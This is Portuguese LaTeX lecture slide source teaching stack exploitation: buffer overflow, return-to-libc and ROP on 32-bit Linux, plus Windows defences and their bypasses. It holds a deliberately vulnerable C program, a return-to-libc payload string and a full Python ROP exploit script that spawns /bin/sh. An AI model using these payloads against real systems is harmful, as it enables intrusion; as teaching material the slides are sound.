       
\includegraphics[width=.65\linewidth]{Linux/imagens/bo8.PNG}
    \end{center}

\end{frame}

\begin{frame}{Buffer Overflow}
    \begin{center}
       (10) O endereço de retorno direciona a execução ao shellcode injetado
       \linebreak
       \includegraphics[width=.65\linewidth]{Linux/imagens/bo9.PNG}
    \end{center}

\end{frame}


\begin{frame}{Return to libc}
    \begin{itemize}
        \item {
        Para corrigir a vulnerabilidade buffer overflow, em muitos sistemas UNIX a pilha é não executável
        }
        \item {
        Existem casos em que o buffer é muito pequeno para injeção de código malicioso
        }
        \item{
        return-to-libc não necessita de uma pilha executável (nem usa shellcode)
        }
        \item{
        O princípio básico consiste em fazer a execução pular para um código existente de alguma biblioteca linkada (como libc) - p.e.: a chamada de sistema {\it system()}.
        }
        \item{
        Passando como argumento para essa chamada "/bin/sh" é possível lançar um shell.
            \begin{itemize}
                \item system("/bin/sh")
            \end{itemize}
        }
    \end{itemize}
    
\end{frame}

\begin{frame}{Return to libc}
    \begin{itemize}
        \item {
            Programas que usam funções de uma biblioteca compartilhada como {\it printf} da libc, farão a linkagem da biblioteca como um todo no seu espaço de endereçamento em tempo de execução.
        }
        \item{
            Isso significa que, mesmo que {\it system} nunca seja chamada, seu código (assim como o código de todas as outras funções na libc) é acessível em tempo de execução
        }
    \end{itemize}
    
\end{frame}

\begin{frame}{Return to libc - exemplo}
    \begin{center}
       (1) Invasor transmite entrada maliciosa
       \linebreak
       \includegraphics[width=.8\linewidth]{Linux/imagens/rtl1.PNG}
    \end{center}

\end{frame}

\begin{frame}{Return to libc - exemplo}
    \begin{center}
       (2) Pode ser qualquer coisa que ocupe o espaço até o endereço de retorno
       \linebreak
       \includegraphics[width=.8\linewidth]{Linux/imagens/rtl2.PNG}
    \end{center}

\end{frame}

\begin{frame}{Return to libc - exemplo}
    \begin{center}
       (3) O endereço de retorno é sobrescrito com o endereço da função system()
       \linebreak
       \includegraphics[width=.8\linewidth]{Linux/imagens/rtl3.PNG}
    \end{center}

\end{frame}

\begin{frame}{Return to libc - exemplo}
    \begin{center}
       (4) O endereço de retorno para a função system() é colocado na pilha
       \linebreak
       \includegraphics[width=.8\linewidth]{Linux/imagens/rtl4.PNG}
    \end{center}

\end{frame}

\begin{frame}{Return to libc - exemplo}
    \begin{center}
       (5) O endereço da string "/bin/sh" - argumento para system() - é colocado na pilha (p.e.: associando a uma variável ambiente)
       \linebreak
       \includegraphics[width=.8\linewidth]{Linux/imagens/rtl5.PNG}
    \end{center}

\end{frame}

\begin{frame}{Return to libc - exemplo}
    \begin{center}
       (6) Quando echo() retorna, um novo shell é lançado
       \linebreak
       \includegraphics[width=.8\linewidth]{Linux/imagens/rtl6.PNG}
    \end{center}

\end{frame}

\begin{frame}{Return to libc}
  \begin{itemize}
      \item {
      Return to libc consegue superar o mecanismo de defesa Writable Xor Executable
      }
      \item{
      Problemas:
        \begin{itemize}
            \item {
                Invasor necessita das funções da libc
            }
            \item{
                É possível chamar apenas uma função depois da outra, não é possível ramificar as chamadas
            }
        \end{itemize}
      }
  \end{itemize}
\end{frame}

\defverbatim[colored]\lstI{
\begin{lstlisting}[language=C++,basicstyle=\ttfamily,keywordstyle=\color{blue}]
#include <stdio.h>
int main(int argc, char *argv[])
{
    char buf[256];
    memcpy(buf, argv[1],strlen(argv[1]));
    printf(buf);
}
\end{lstlisting}
}

\begin{frame}{Return to libc - demonstração}
  \begin{itemize}
      \item {
      O ataque foi executado em uma máquina virtual Kubuntu 16.04 com arquitetura 32 bits.
      }
      \item{
      Para conseguir executar o ataque, o mecanismo de defesa ASLR (randomização de endereços base) teve de ser desativado.
        \begin{center}
            \includegraphics[width=.8\linewidth]{Linux/imagens/ret2libc.png}
        \end{center}
      }
      \item{
      Código Vulnerável:
      }
  \end{itemize}
  \lstI
\end{frame}

\begin{frame}{Return to libc - demonstração}
  \begin{itemize}
      \item {
      Alguns mecanismos de defesa também tiveram que ser desativados para compilar o código vulnerável.
      \begin{itemize}
          \item {
            -mpreferred-stack-boundary=2
          }
          \item{
           -fno-stack-protector
          }
      \end{itemize}
      }
  \end{itemize}
  \begin{center}
     \includegraphics[width=.99\linewidth]{Linux/imagens/ret2libc-1.png}
  \end{center}
\end{frame}


\begin{frame}{Return to libc - demonstração}
  \begin{itemize}
      \item {
      Como pode ser visto na imagem abaixo, através da ferramenta readelf.
        \begin{itemize}
            \item {
                -l --program-headers   Display the program headers
            }
        \end{itemize}
      }
  \end{itemize}
  \begin{center}
     \includegraphics[width=.99\linewidth]{Linux/imagens/ret2libc-2.png}
  \end{center}
\end{frame}


\begin{frame}{Return to libc - demonstração}
  \begin{itemize}
      \item {
      Primeiramente é preciso tentar descobrir o tamanho do buffer para sobrescrever o endereço de retorno.
        \begin{itemize}
            \item {
                 Com uma entrada de 264 bytes, é possível perceber que o endereço de retorno é sobrescrito (41 é o código ASCII referente ao caracter "A")
            }
            \item{
                Testando novamente, com uma entrada de 264 bytes, sendo os 4 bytes finais o caracter "B" é possível perceber que o endereço de retorno é sobrescrito após 260 bytes.
            }
        \end{itemize}
      }
  \end{itemize}
  \begin{center}
     \includegraphics[width=.99\linewidth]{Linux/imagens/ret2libc-3.png}
  \end{center}
\end{frame}

\begin{frame}{Return to libc - demonstração}
  \begin{itemize}
      \item {
      Nesse ataque, pretendemos redirecionar a execução do programa para uma chamada da função system() passando como argumento "/bin/sh". O objetivo é obter acesso a um shell.
        \begin{itemize}
            \item {
                 A string "/bin/sh" é exportada para uma variável de ambiente, para obtermos seu endereço.
                 \begin{center}
                    \includegraphics[width=.8\linewidth]{Linux/imagens/ret2libc-5.png}
                \end{center}
            }
            \item{
                É preciso descobrir o endereço da system(). A biblioteca foi linkada ao programa porque ele utiliza funções da libc, então ela está mapeada no espaço de endereçamento da aplicação.
                \begin{itemize}
                    \item p system: imprime o endereço da função system()
                \end{itemize}
            }
        \end{itemize}
      }
  \end{itemize}
  \begin{center}
     \includegraphics[width=.8\linewidth]{Linux/imagens/ret2libc-4.png}
  \end{center}
\end{frame}

\begin{frame}{Return to libc - demonstração}
  \begin{itemize}
      \item {
      Usando o comando "(gdb) x/s *((char **)environ)" na ferramenta gdb para encontrar o endereço da variável de ambiente.
      }
  \end{itemize}
  \begin{center}
     \includegraphics[width=.8\linewidth]{Linux/imagens/ret2libc-6.png}
  \end{center}
\end{frame}

\begin{frame}{Return to libc - demonstração}
  
  \begin{center}
     \includegraphics[width=.99\linewidth]{Linux/imagens/ret2libc-7.png}
  \end{center}
\end{frame}

\begin{frame}{Return to libc - demonstração}
  \begin{itemize}
      \item {
      Tendo o endereço da função system(), da variável de ambiente, além de saber o tamanho do buffer, é possível criar uma entrada para o programa que causará um buffer overflow para redirecionar o fluxo de execução.
        
      }
  \end{itemize}
  
  \begin{table}[h!]
  \centering
  \begin{tabular}{ccccc}
    Topo da Pilha & EBP & EIP & End. Ret. Falso & End. Arg.\\
    \hline
    AAAAAA...A & AAAA & (0xb7e3ed80) & DUMM & (0xbffffdf4)\\
  \end{tabular}
\end{table}
  
  \begin{itemize}
      \item 
      Considerando-se uma arquitetura Big Endian, a string de entrada para o programa vulnerável será:
      \linebreak
      "A"*260 + "\textbackslash x80\textbackslash xed\textbackslash xe3\textbackslash xb7"+"DUMM"+"\textbackslash xfa\textbackslash xfd\textbackslash xff\textbackslash xbf"
      
  \end{itemize}
\end{frame}

\begin{frame}{Return to libc - demonstração}
  \begin{itemize}
      \item {
      Aplicando o ataque, temos um shell como resposta:
      }
  \end{itemize}
  \begin{center}
     \includegraphics[width=.99\linewidth]{Linux/imagens/ret2libc-8.png}
  \end{center}
\end{frame}


\begin{frame}{Return-Oriented Programming}
    \begin{itemize}
        \item {
            Técnica de ataque que burla o mecanismo de defesa W xor E
        }
        \item{
            Computação Arbitrária (Turing-complete) que não necessita de
            \begin{itemize}
                \item {
                Injeção de Código
                }
                \item{
                chamada para alguma função de alguma bibliteca
                }
                \item{
                modificar o código original
                }
            \end{itemize}
        }
        \item{
         Utiliza uma série de sequência de instruções conhecidas como \textcolor{red}{\bf Gadgets}
        }
        \item{
            A arquitetura x86 não limita as instruções a terem tamanhos específicos
            \begin{itemize}
                \item {
                Isso significa que é possível apontar para o meio de uma instrução válida fazendo com que uma instrução diferente seja executada
                }
            \end{itemize}
        }
    \end{itemize}
    
\end{frame}

\begin{frame}{Return-Oriented Programming}
    \begin{center}
       \includegraphics[width=.8\linewidth]{Linux/imagens/j1.PNG}
    \end{center}

\end{frame}

\begin{frame}{Return-Oriented Programming}
    \begin{center}
       \includegraphics[width=.8\linewidth]{Linux/imagens/j2.PNG}
    \end{center}

\end{frame}

\begin{frame}{Return-Oriented Programming}
    \begin{center}
       \includegraphics[width=.8\linewidth]{Linux/imagens/j3.PNG}
    \end{center}

\end{frame}

\begin{frame}{Return-Oriented Programming}
    \begin{itemize}
        \item {
        Return-Oriented Programing faz o uso de pequenas sequências de instruções ao invés de utilizar funções inteiras
        }
        \item{
        As sequências de instruções vão de 2 a 5 instruções por sequência
        }
        \item{
        Todas as sequências terminam com uma instrução \textcolor{red}{ret}
        }
        \item{
        As sequências de instruções são encadeadas para formar um Gadget
        }
        \item{
        O gadget vai realizar alguma tarefa específica (p.e.: load, store, ...)
        }
        \item{
        O ataque tem suas ações executadas combinando os gadgets
        }
    \end{itemize}
    
\end{frame}

\begin{frame}{Return-Oriented Programming}
    \begin{center}
       \includegraphics[width=.8\linewidth]{Linux/imagens/gadget.PNG}
    \end{center}

\end{frame}

\begin{frame}{Return-Oriented Programming}
    \begin{center}
       \includegraphics[width=.8\linewidth]{Linux/imagens/gadget1.png}
    \end{center}
    \begin{itemize}
        \item {
            7c8016cc é o endereço da instrução real
        }
        \item {
             Se mudarmos 1 byte, e passarmos a apontar para 7c8016cd, as instruções mudam totalmente:
        }
    \end{itemize}
    
    \begin{center}
       \includegraphics[width=.8\linewidth]{Linux/imagens/gadget2.png}
    \end{center}
    
    \begin{itemize}
        \item {É assim que os gadgets são construídos}
    \end{itemize}

\end{frame}

\begin{frame}{Return-Oriented Programming}
    \begin{center}
    Alguns exemplos de operações que podem ser realizadas com gadgets
    \end{center}
    \begin{itemize}
        \item {
        \textcolor{blue}{Carregar uma constante em um registrador}:
        \linebreak
        \textcolor{green}{pop} eax; \textcolor{green}{ret}
        \linebreak
        Essa sequência de instruções fará um pop de um valor na pilha e o colocará em um registrador (eax) e depois retornar para um endereço no topo da pilha.
        }
    \end{itemize}
    
    \begin{center}
  \begin{tabular}{ | l | c |  }
    \hline
    Endereço do gadget POP EAX/RET & Topo da pilha  \\ \hline
    0xdeadbeef & Valor que será colocado no eax \\ \hline
    Endereço do próximo gadget & Para que o ret retorne nesse ponto \\
    \hline
  \end{tabular}
\end{center}
\end{frame}

\begin{frame}{Return-Oriented Programming}
    \begin{itemize}
        \item {
        \textcolor{blue}{Carregar valor da memória}:
        \linebreak
        \textcolor{green}{mov} ecx,[eax]; \textcolor{green}{ret}
        \linebreak
        Essa sequência de instruções permitirá que um valor seja carregado da memória no endereço armazenado em eax para o registrador ecx.
        }
        \item{
            \textcolor{blue}{Armazenar valor na memória}:
            \linebreak
            \textcolor{green}{mov} [eax],ecx; \textcolor{green}{ret}
            \linebreak
            Essa sequência de instruções permitirá que um valor no registrador ecx seja armazenado na posição de memória indicada por eax.
        }
        \item{
            \textcolor{blue}{Operações aritméticas}:
            \linebreak
            Diversas operações como adição, subtração, OR e AND podem ser encontradas em gadgets.
            \linebreak
            Por exemplo:
            \linebreak
            \textcolor{green}{add} eax,0x0b; \textcolor{green}{ret} (adicionará 0x0b a eax)
            \linebreak
            \textcolor{green}{xor} edx,edx; \textcolor{green}{ret} (vai zerar edx)
        }
    \end{itemize}
\end{frame}

\begin{frame}{Return-Oriented Programming}
    \begin{itemize}
        \item {
            \textcolor{blue}{System Call}:
            \linebreak
            Uma chamada de sistema seguida de ret permitirá que executemos uma interrupção ao kernel (uma chamada de sistema) que a gente estabeleceu anteriormente.
            \linebreak
            Por exemplo:
            \linebreak
            \textcolor{green}{int} 0x80; \textcolor{green}{ret}
            \linebreak
            \textcolor{green}{call} gs:[0x10]; \textcolor{green}{ret}
        }
        \item{
            \textcolor{blue}{Gadgets a evitar}:
            \linebreak
            Gadgets que bagunçam o stack frame
            \linebreak
            Por exemplo:
            \linebreak
            Gadgets que terminam com \textcolor{green}{leave} seguido de \textcolor{green}{ret} faz a operação de \textcolor{green}{pop} ebp
            \linebreak
            Gadgets que tenham a instrução \textcolor{green}{pop} ebp
        }
    \end{itemize}
\end{frame}


\begin{frame}{ROP - exemplo}
    \begin{center}
       (1) O programa está esperando a entrada do usuário
       \linebreak
       \includegraphics[width=.9\linewidth]{Linux/imagens/rop1.PNG}
    \end{center}

\end{frame}

\begin{frame}{ROP - exemplo}
    \begin{center}
       (2) Buffer Overflow
       \linebreak
       \includegraphics[width=.9\linewidth]{Linux/imagens/rop2.PNG}
    \end{center}

\end{frame}

\begin{frame}{ROP - exemplo}
    \begin{center}
       (3) A entrada contém endereços de retorno e um argumento
       \linebreak
       \includegraphics[width=.9\linewidth]{Linux/imagens/rop3.PNG}
    \end{center}

\end{frame}

\begin{frame}{ROP - exemplo}
    \begin{center}
       (4) Com o retorno, a primeira sequência é executada
       \linebreak
       \includegraphics[width=.9\linewidth]{Linux/imagens/rop4.PNG}
    \end{center}

\end{frame}

\begin{frame}{ROP - exemplo}
    \begin{center}
       (5) A instrução de retorno transfere o controle para a próxima sequência de instruções
       \linebreak
       \includegraphics[width=.9\linewidth]{Linux/imagens/rop5.PNG}
    \end{center}

\end{frame}

\begin{frame}{ROP - exemplo}
    \begin{center}
       (6) Retorno da sequência 2 transfere controle para sequência 3
       \linebreak
       \includegraphics[width=.9\linewidth]{Linux/imagens/rop6.PNG}
    \end{center}

\end{frame}

\begin{frame}{ROP - exemplo}
    \begin{center}
       (7) Pop do argumento da Pilha
       \linebreak
       \includegraphics[width=.9\linewidth]{Linux/imagens/rop7.PNG}
    \end{center}

\end{frame}

\begin{frame}{ROP - exemplo}
    \begin{center}
       (8) Retorno da sequência de instruções 3
       \linebreak
       \includegraphics[width=.9\linewidth]{Linux/imagens/rop8.PNG}
    \end{center}

\end{frame}


\begin{frame}{ROP - exemplo}
    \begin{center}
       (9) Retorno passa o fluxo de execução para a sequência 4
       \linebreak
       \includegraphics[width=.9\linewidth]{Linux/imagens/rop9.PNG}
    \end{center}

\end{frame}

\begin{frame}{ROP - exemplo}
    \begin{center}
       (10) Retorno da sequência 4 transfere o controle pro segundo gadget
       \linebreak
       \includegraphics[width=.9\linewidth]{Linux/imagens/rop10.PNG}
    \end{center}

\end{frame}

\begin{frame}{ROP - exemplo}
    \begin{center}
       (11) Retorno da sequência 1 transfere controle para sequência 2
       \linebreak
       \includegraphics[width=.9\linewidth]{Linux/imagens/rop11.PNG}
    \end{center}

\end{frame}

\begin{frame}{ROP - demonstração}
  \begin{itemize}
      \item {
      Assim como no ataque return to libc, para demonstrar a técnica ROP, alguns mecanismos de defesa foram desativados. A entrada de 264 bytes mostra que o endereço de retorno está sendo sobrescrito, ou seja, o programa é vulnerável a um buffer overflow.
      }
  \end{itemize}
  \begin{center}
     \includegraphics[width=.99\linewidth]{Linux/imagens/rop1.png}
  \end{center}
\end{frame}

\begin{frame}{ROP - demonstração}
  \begin{itemize}
      \item {
      Assim como no ataque anterior, queremos desviar o fluxo de execução para que um shell seja lançado.
      }
      \item{
      No ataque anterior, era obrigatório que a biblioteca libc estivesse mapeada no espaço de endereçamento do programa.
      }
      \item{
      Esse exemplo ainda utiliza a biblioteca libc (o mesmo código vulnerável do exercício anterior será utilizado, e, como foi visto, ele não é muito grande).
      }
      \item{
      Para aplicações com um código maior, é possível executar o ataque ROP considerando-se apenas o código da aplicação.
      }
  \end{itemize}
\end{frame}

\begin{frame}{ROP - demonstração}
  \begin{itemize}
      \item {
      Primeiramente, é necessário verificar qual libc está linkada ao binário.
      }
      \item{
      Para isso, um breakpoint foi colocado na main, e o programa foi incializado.
      }
      \item{
      Desse modo, poderemos localizar as informações do processo analisando esse processo em específico.
      }
  \end{itemize}
  \begin{center}
     \includegraphics[width=.99\linewidth]{Linux/imagens/rop2.png}
  \end{center}
\end{frame}

\begin{frame}{ROP - demonstração}
  \begin{itemize}
      \item {
      Então, precisamos identificar o pid do processo que acabos de inicializar.
      }
  \end{itemize}
  \begin{center}
     \includegraphics[width=.8\linewidth]{Linux/imagens/rop3.png}
  \end{center}
  \begin{itemize}
      \item {
      Com essa informação, é possível analisar o arquivo maps relacionado ao processo. Cada linha no /proc/PID/maps descreve uma região de memória virtual de um processo.
      }
  \end{itemize}
  \begin{center}
     \includegraphics[width=.8\linewidth]{Linux/imagens/rop5.png}
  \end{center}
\end{frame}

\begin{frame}{ROP - demonstração}
  \begin{itemize}
      \item {
      A ferramenta ROPeme, desenvolvida pela VNsecurity, foi utilizada para encontrar gadgets.
      }
      \item{
      Os scripts estão disponíveis no GitHub. Para incializar a ferramenta, basta iniciar o script ropshell.py
      }
      \item{
      Alguns comandos:
        \linebreak
        generate "binário": gera gadgets para um dado arquivo
        \linebreak
        search "nome da instrução" "\% ou ?": procura por gadgets contendo a instrução especificada
        \linebreak
        \%: indica que pode vir qualquer número de instruções depois
        \linebreak
        ?: indica que a instrução seguinte deve ser ret
      }
  \end{itemize}
\end{frame}



\begin{frame}{ROP - demonstração}
  \begin{itemize}
      \item{
      Nesse ataque exemplo, queremos rodar execve(“/bin/sh”,0,0)
      }
      \item{
      O que é preciso saber:
      \begin{itemize}
          \item {
          Os argumentos das chamadas de sistema no linux são colocados nos regstradores ebx, ecx, edx, esi, edi respectivamente.
          }
          \item{
          O número da chamada de sistema é colcado no registrador eax
          }
          \item{
          O número da chamada de sistema execve é 11
          }
      \end{itemize}
      }
      \item {
      O plano para realizar o ataque é o seguinte:
      \begin{enumerate}
          \item zerar o eax
          \item mover o ponteiro que aponta para o argp para o ecx
          \item mover o ponteiro que aponta para o envp para o edx
          \item colocar em ebx o endereço de "/bin/sh"
          \item mover 0xb para eax (11 é o número da syscall execve())
          \item realizar uma syscall
      \end{enumerate}
      }
  \end{itemize}
    
\end{frame}


\begin{frame}{ROP - demonstração}
  \begin{itemize}
      \item {
      É necessário salvar a string "/bin/sh" em algum lugar na memória e carregar o endereço em ebx.
      }
      \item{
      Um bom local é o segmento de dados.
      }
  \end{itemize}
  \begin{center}
     \includegraphics[width=.8\linewidth]{Linux/imagens/rop10.png}
  \end{center}
  \begin{itemize}
      \item {
      É necessário tomar cuidados para não escrever a string em endereços com bytes nulos.
      }
      \item{
      É necessário dividir a string em duas seções de 4 bytes: "/bin" (4 bytes)
      e "//sh" (4 bytes)
      }
  \end{itemize}
\end{frame}

\begin{frame}{ROP - demonstração}
  \begin{itemize}
      \item {
      É preciso encontrar a instrução \textcolor{green}{xor} eax eax para zerar o eax.
      }
  \end{itemize}
  \begin{center}
     \includegraphics[width=.7\linewidth]{Linux/imagens/rop6.png}
  \end{center}
  \begin{itemize}
      \item {
      O endereço informado pela ferramenta é na verdade um offset do gadget dentro do código da libc. Para determinar exatamente o endereço, é necessário somar o offset ao endereço base da biblioteca que descobrimos anteriormente:
      b7e04000+ 2c77c = 0xB7E3077C
      }
  \end{itemize}
\end{frame}

\begin{frame}{ROP - demonstração}
  \begin{itemize}
      \item {
      Outros gadgets encontrados e seus endereços:
      }
      \begin{columns}
    \begin{column}{0.5\textwidth}
       \begin{itemize}
          \item {
          search mov [ eax \%
          \linebreak
          0x2b6d7L: mov [eax] ecx ;;
          \linebreak
          b7e04000+2b6d7=0xB7E2F6D7
          }
          \item{
          search pop ecx %
            \linebreak
          0xea431L: pop ecx ; pop eax ;;
            \linebreak
          b7e04000+ea431=0xB7EEE431
          }
          \item{
          search mov \% eax
          \linebreak
          0x2bc83L: mov [edx+0x18] eax ;;
          \linebreak
        b7e04000+2bc83 = 0xB7E2FC83
          }
          \item{
          search pop ebx \%
        \linebreak
        0x189f7L: pop ebx ;;
        \linebreak
        b7e04000+189f7=0xB7E1C9F7
          }
      \end{itemize}
    \end{column}
    \begin{column}{0.5\textwidth}
       \begin{itemize}
           \item {
           search pop ecx \%
            \linebreak
            0x2bc4cL: pop ecx ; pop edx ;;
            \linebreak
            b7e04000+2bc4c=0xB7E2FC4C
           }
           \item{
           search pop edx \%
           \linebreak
            0x1aaeL: pop edx ;;
            \linebreak
            b7e04000+1aae=0xB7E05AAE
           }
           \item{
           search add eax 0xb 
           \linebreak
            0x13fdd8L: add eax 0xb ;;
            \linebreak
            b7e04000+13fdd8=0xB7F43DD8
           }
           \item{
           search call gs:[0x10]
            \linebreak
            0xb11a5L: call dword [gs:0x10] ;;
            \linebreak
            b7e04000+b11a5=0xB7EB51A5
           }
       \end{itemize}
      
    \end{column}
  \end{columns}
      
  \end{itemize}
\end{frame}

\defverbatim[colored]\lstI{
\begin{lstlisting}[language=Python,basicstyle=\ttfamily,keywordstyle=\color{green},basicstyle=\tiny]
from struct import pack
from os import system

junk = 'A'*260 #junk to offset to stored ret
p = junk
p += pack("<L", 0xB7EEE431) #pop ecx ; pop eax; ret
p += "/bin"                 #string to be popped into ecx
p += pack("<L", 0x0804a020) #address to be popped into eax to write "/bin" to
p += pack("<L", 0xB7E2F6D7) #mov [ecx],eax; ret
p += pack("<L", 0xB7EEE431) #pop ecx ; pop eax; ret
p += "//sh"                 #string to be popped into ecx
p += pack("<L", 0x0804a024) #address to be popped into eax to write "//sh" to 
#"0x0804971c +4"
p += pack("<L", 0xB7E2F6D7) #mov [ecx],eax; ret
p += pack("<L", 0xB7E3077C) #xor eax,eax; ret
p += pack("<L", 0xB7E05AAE) #pop edx; ret
p += pack("<L", 0x0804a010) #address to write NULL bytes to "0x08049708+4-18"
p += pack("<L", 0xB7E2FC83) #mov [edx+0x18] eax ;ret
p += pack("<L", 0xB7E2FC4C) #pop ecx; pop edx; ret
p += pack("<L", 0x0804a028) #address of argp array to be loaded into ecx pointing
#to NULL bytes.
p += pack("<L", 0x0804a028) #address of envp array to be loaded into edx pointing
#to NULL bytes.
p += pack("<L", 0xB7E1C9F7) #pop ebx ; ret
p += pack("<L", 0x0804a020) #pointer of string "/bin//sh"
p += pack("<L", 0xB7F43DD8) #add eax 0xb ;ret
p += pack("<L", 0xB7EB51A5) #call gs:[0x10] ; ret

system("./vuln \""+p+"\"")
\end{lstlisting}
}

\begin{frame}{ROP - demonstração}

\begin{center}
    O buffer será formado da seguinte maneira:
    \lstI
\end{center}
\end{frame}

% You can reveal the parts of a slide one at a time

\begin{frame}{ROP - demonstração}

Após rodar o script em python, o atque é executado e um shell é lançado:
\begin{center}
    \includegraphics[width=.99\linewidth]{Linux/imagens/ropFUNFANDO-1.png}
\end{center}
    
\end{frame}




\section{Exploiting Windows for PenTesters}
\subsection{Mecanismos de Defesa}

\begin{frame}{Sobre o Windows}

  \begin{itemize}
  \item{
  Windows API (Application Programming Interface):
  \begin{itemize}
    \item{
    É um conjunto base de interfaces de programação, funções são juntadas em DLLs e compiladas. A funcionalidade do API do Windows e vinculo dinâmico permite que os desenvolvedores a modificar funções dentro das DLLs sem afetar a funcionalidade do aplicativo.

    }
  \end{itemize}
  }
  \item{
  TIB ou TEB:
  \begin{itemize}
      \item {
      Thread Information Block ou Thread Environment Block (que são sinônimos) é uma estrutura de dados que contém a informação do Thread atual e cada Thread tem seu devido bloco. O registrador FS é quem possui o endereço de TIB, o PID (Program ID) do processo pode ser encontrado em FS[0x20], não sendo necessário chamar a função getprocessid().\linebreak{}
      Alguns offsets que é de interesse:
      \begin{itemize}
        \item{
        FS[0x00]:Ponteiro para o SEH (Structured Exeption Handler)
        }
        \item{
        FS[0x18]: Endereço do TIP (referência a ele mesmo)
        }
        \item{
        FS[0x20]: PID (Process ID)
        }
        \item{
        FS[0x30]: Endereço do PEB (Process Environment Block)
        }
      \end{itemize}
      }
  \end{itemize}      
    }
    \end{itemize}
\end{frame}

\begin{frame}{Sobre o Windows}

  \begin{itemize}
  \item{
  PEB (Process Environment Block):
  \begin{itemize}
    \item{
   É uma estrutura de dados que armazena a informação do processo que se refere. O endereço do módulo carregado, a base do heap, DLLs que foram importadas para o processo e muitas outras informações são encontradas no PEB.
    }
  \end{itemize}
  }
  \item{
  SEH (Structured Exception Handling):
  \begin{itemize}
      \item {
      Quando ocorre uma exceção no código é chamado uma função que permite a chance de “tratamento” dessa exceção. Se for possível tratar o valor da função é retornado normalmente, caso não seja possível tratar na primeira tentativa é feito uma nova tentativa de execução das funções que causou a exceção, caso não seja tratado será tentado o tratamento da próxima exceção da lista até que as opções se esgotem. \linebreak
      O programador pode definir a própria lista de exceções a serem tratadas com as suas devidas saídas (mensagem de erro, finaliza o processo, etc), caso não seja definido pelo programador será utilizado o tratamento padrão para as exceções.
      }
  \end{itemize}      
    }
\end{itemize}
\end{frame}

\begin{frame}{Funcionamento da SEH}

    \begin{figure}
        \begin{itemize}
         \item{
          Ilustração de como funciona o tratamento de exceções (cadeia SEH).
         } 
        \end{itemize}
        \centering
        \includegraphics[width=.99\linewidth]{Windows/imagens/seh1.PNG}
    \end{figure}
\end{frame}

\begin{frame}{Write xor Execute e DEP}

  \begin{itemize}
  \item{
  O que faz:
  \begin{itemize}
    \item{
    Se baseia em marcar segmentos de memória que apenas seria possível alterar (write) ou apenas executar (execute). O DEP (Data Execution Prevention) é baseado no Write xor Execute do Linux, tem principio de que nenhum código de execução seja na pilha ou monte. Qualquer tentativa de execução de um código marcado como não executável não será executado.

    }
  \end{itemize}
  }
  \item{
  Como explorar:
  \begin{itemize}
      \item {
      Caso seja uma parte apenas executável e o código a ser executado já esteja dentro da aplicação, só é preciso retornar e executar a parte do código desejada. Caso seja uma parte que apenas tenha permissão para modificar é possível retornar para a parte desejada utilizando  um shellcode. Dependendo do OS é possível desativar esse mecanismo.
      }
  \end{itemize}      
    }
\end{itemize}
\end{frame}

\begin{frame}{Flag SafeSEH}

  \begin{itemize}
  \item{
  O que faz:
  \begin{itemize}
    \item{
    É uma flag que quando utilizada, o linker do projeto faz uma tabela de operadores válidos e caso o programa sobrescreva o operador e seu endereço não estiver na tabela como um operador válido o programa é terminado.
    }
  \end{itemize}
  }
  \item{
  Como explorar:
  \begin{itemize}
      \item {
       Seu maior problema é que muitos programas feito por terceiros não são feitos utilizando a flag SafeSEH (Safe Structured Exception Handling) o que da chance à ataques nas áreas de memória não protegidas.
      }
  \end{itemize}      
    }
\end{itemize}
\end{frame}


\begin{frame}{PEB Randomization}

  \begin{itemize}
  \item{
  O que faz:
  \begin{itemize}
    \item{
    Utiliza vários endereços (16 em total, de 0x7FFD000 até 0x7FFDF000) para o Process Environment Block em cada execução do programa.
    }
  \end{itemize}
  }
  \item{
  Como explorar:
  \begin{itemize}
      \item {
      É possível sobrescrever RtlCriticalSection para que ele sobrescreva a saída do programa, dentre outros tipos de ataque.  Pesquisa da Symantec mostrou que é possível ter acerto de 25\% na primeira tentativa na localização do PEB. Como existem um número limitado de endereços, caso seja possível inúmeras tentativas de achar o endereço o sucesso de ataque é iminente.

      }
      \end{itemize}  
    }
      
\end{itemize}
\end{frame}

\begin{frame}{Heap Cookies}

  \begin{itemize}
  \item{
  O que faz:
  \begin{itemize}
    \item{
    Tem comprimento de 8 bits e fornece 256 chaves diferentes usadas para proteger um bloco de memória.
    }
  \end{itemize}
  }
  \item{
  Como explorar:
  \begin{itemize}
      \item {
       Parecido com PEB randomization, como existem possibilidades finitas, a média de sucesso na tentativa de ter a chave certa é de 1/256. Portando é possível burlar essa defesa com força bruta ou memory leaks.

      }
       \end{itemize}
    }

\end{itemize}
\end{frame}

\begin{frame}{Visual C++/GS Check}

  \begin{itemize}
  \item{
  O que faz:
  \begin{itemize}
    \item{
    Força um cookie de segurança de 32 bits na pilha de execução se for determinado que o programa é vulnerável, assim protegendo o endereço de retorno, para cada módulo carregado é feito um cookie. No retorno de funções é feito a checagem do cookie, em caso de falha o processo é interrompido.
    }
  \end{itemize}
  }
  \item{
  Como explorar:
  \begin{itemize}
      \item {
      Qualquer programa que foi compilado sem utilizar o MS Visual Studio precisará ser recompilado para incluir essa proteção, portanto nem todos os programas possuirão essa proteção.

      }
  \end{itemize}      
    }
      
\end{itemize}
\end{frame}

\begin{frame}{Safe Unlinking}

\begin{itemize}
  \item{
  O que faz:
  \begin{itemize}
    \item{
    De maneira similar ao unlink() utilizado no Linux, os ponteiros do programa são testados de modo que para onde eles apontem ainda apontem para si antes de haver o unlink, ((B->Flink)->Blink B \&\& (B->Blink)->Flink B), ou seja, o ponteiro de volta da próxima parte deve estar apontando para a parte atual do código e o ponteiro de ida da parte anterior do código deve estar apontando também para a parte atual.
    }
  \end{itemize}
  }
\end{itemize}
\end{frame}

\begin{frame}{LFH (Low Fragmentation Heap)}

  \begin{itemize}
  \item{
  O que faz:
  \begin{itemize}
    \item{
    É colocado um cookie de 32 bits no início para garantir a integridade via checagem quando são alocados blocos de buckets. LHF pode alocar blocos maiores que 8 bits mas menores que 16 bits, alocações maiores que 16 bits é utilizado o heap padrão e o cookie de 32 bits não será utilizado.
    }
